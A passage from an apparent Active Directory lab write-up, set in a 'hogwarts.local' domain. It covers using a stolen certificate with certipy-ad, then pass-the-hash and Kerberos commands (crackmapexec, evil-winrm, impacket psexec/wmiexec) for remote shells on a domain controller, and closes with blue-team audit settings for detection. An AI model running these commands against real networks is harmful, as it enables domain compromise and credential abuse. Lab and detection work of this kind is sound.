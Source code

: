 <img src="https://github.com/user-attachments/assets/50137654-442c-44f1-b482-6353bd56671a">
</br>

> [!NOTE]  
> A PFX file is a Personal Information Exchange file used for the storage and transfer of cryptographic information, most commonly a certificate. It generally includes a certificate, possibly with its public key, and its corresponding private key, possibly with a certificate chain. These are all basically used for communications—SSL/TLS for websites or digital signatures.

### Step3-Authenticate as a Domain Admin User

```console
# certipy-ad auth -pfx severus.snape.pfx -dc-ip 192.168.0.111
```
<img src="https://github.com/user-attachments/assets/8b307664-d079-40b6-bde9-d0dcaf60ee60">

### Step4-Sample Commands for Further Activities

```console
# crackmapexec smb 192.168.0.111 -u severus.snape -H 9cdd28ced90e96a6d86ba2f028032bd1
# crackmapexec smb 192.168.0.111 -u severus.snape -H 9cdd28ced90e96a6d86ba2f028032bd1 -x whoami
# evil-winrm -i 192.168.0.111 -u severus.snape -H 9cdd28ced90e96a6d86ba2f028032bd1
```
If NTLM authentication is disabled 

```console
export KRB5CCNAME=severus.snape.ccache;impacket-psexec -dc-ip 192.168.0.111 -target-ip 192.168.0.111 -no-pass -k hogwarts.local/severus.snape@DC01.hogwarts.local -debug
export KRB5CCNAME=severus.snape.ccache;impacket-wmiexec -dc-ip 192.168.0.111 -target-ip 192.168.0.111 -no-pass -k hogwarts.local/severus.snape@DC01.hogwarts.local -debug
export KRB5CCNAME=severus.snape.ccache;impacket-psexec -dc-ip 192.168.0.111 -target-ip 192.168.0.111 -no-pass -k @DC01.hogwarts.local -debug
export KRB5CCNAME=severus.snape.ccache;impacket-wmiexec -dc-ip 192.168.0.111 -target-ip 192.168.0.111 -no-pass -k @DC01.hogwarts.local -debug
```
> [!CAUTION]  
> Be careful when using impacket-psexec. Because this command creates a random 8-character named exe file,which gives the system shell by token impersonating, in the ADMIN$ share. This exe file is considered malicious by AVs and EDRs.

## Blue Team Activity

### Monitoring and Manual Detection Strategy

<b>Enable Audit Certification Services with GPO.</b> </br>
Computer Configuration > Policies > Windows Settings > Security Settings > Advanced Audit Policy Configuration > Audit Policies > Object Access > Audit Certification Services.</br>

<b>Enable Audit Kerberos Authentication Service and Audit Kerberos Service Ticket Operations</b></br>
Computer Configuration > Policies > Windows Settings > Security Settings > Advanced Audit Policy Configuration > Audit Policies > Account Logon</br>
